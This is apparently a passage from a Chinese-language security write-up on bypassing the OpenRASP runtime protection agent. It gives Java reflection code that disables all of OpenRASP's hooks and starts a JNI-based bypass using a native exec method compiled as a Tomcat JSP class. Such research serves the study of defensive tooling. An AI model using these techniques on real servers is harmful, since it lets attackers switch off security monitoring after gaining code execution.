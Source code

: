 还有Y4师傅找到的：
比如在执行检测前中间的调用流程有个`com.baidu.openrasp.HookHandler#doCheckWithoutRequest`，这里面提到了如果服务器的cpu使用率超过90%，禁用全部hook点
![](https://img-blog.csdnimg.cn/cc8b4366faf04e119199c3c50130dae3.png)

```java
Class<?> clz = Thread.currentThread().getContextClassLoader().loadClass("com.baidu.openrasp.config.Config");
java.lang.reflect.Method getConfig = clz.getDeclaredMethod("getConfig");
java.lang.reflect.Field disableHooks = clz.getDeclaredField("disableHooks");
disableHooks.setAccessible(true);
Object ins = getConfig.invoke(null);

disableHooks.set(ins,true);
```
反射设置`disableHooks`为true即可

可以看到上面两种方法的利用条件都十分苛刻，需要存在反序列化漏洞或者JNDI注入，并且没有被openrasp拦截才可以


参考：
[浅谈 RASP](https://paper.seebug.org/1041/)
[OpenRasp分析](https://y4tacker.github.io/2022/05/28/year/2022/5/OpenRasp%E5%88%86%E6%9E%90)
[OpenRASP学习笔记](https://www.anquanke.com/post/id/216886)


## JNI绕过RASP
JNI的全称叫做（Java Native Interface），其作用就是让我们的Java程序去调用C的程序。实际上调用的并不是exe程序，而是编译好的dll动态链接库里面封装的方法


Tomcat环境下，需要以下限制条件：

- 固定包名格式为`org.apache.jsp`
- java文件名称需要固定格式： `***_jsp` ，并且后面的jsp文件名称需要同其保持一致。例如 `testtomcat_jsp.java`，那么最终jsp的文件名称需要命名为`testtomcat.jsp`


我们首先新建package为`org.apache.jsp`，类名为`testtomcat_jsp`的.java文件
```java
package org.apache.jsp;
public class testtomcat_jsp
{
  class JniClass
  {
       public native String exec( String string );
  }
}
```
然后javac编译成class文件
```bash
javac testtomcat_jsp.java
```
命令执行后，生成文件`testtomcat_jsp.class`和`testtomcat_jsp$JniClass.class`
![](https://img-blog.csdnimg.cn/d5431fdba06f4305b9e8275fe25b911c.png)

